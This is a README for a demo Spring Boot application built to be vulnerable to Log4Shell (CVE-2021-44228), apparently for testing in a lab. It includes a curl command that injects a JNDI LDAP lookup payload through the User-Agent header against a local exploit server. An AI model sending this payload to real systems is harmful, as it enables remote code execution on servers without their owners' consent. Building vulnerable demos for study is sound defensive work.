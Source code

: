 # Original Repo: https://github.com/korteke/log4shell-demo

## Simple Spring Boot application which is vulnerable to Log4Shell (CVE-2021-44228)
* Changed default logging framework from logback to log4j2

## Environment Setup

* All components of the sub project *l4sexploit* must be up and running (see README.md)

## Usage 

Application logs 'User-Agent' header, so one can test vulnerability with curl and `ExploitServer` in *l4sexploit*:
```
curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/
```
